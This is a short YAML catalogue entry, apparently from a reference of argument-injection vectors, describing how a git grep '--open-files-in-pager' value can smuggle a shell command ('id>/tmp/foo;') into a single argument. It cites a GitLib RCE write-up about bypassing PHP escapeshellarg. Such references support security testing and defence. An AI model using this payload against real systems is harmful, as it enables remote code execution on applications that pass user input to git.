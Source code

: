 ```yaml
---
functions:
  command:
    - description: |
        This vector requires to be in a valid Git repository and a single positional argument.
      references:
        - title: GitLib 0.6 RCE
          url: https://web.archive.org/web/20180725110320/https://security.szurek.pl/exploit-bypass-php-escapeshellarg-escapeshellcmd.html
      code: git grep '--open-files-in-pager=id>/tmp/foo;' .
---
```

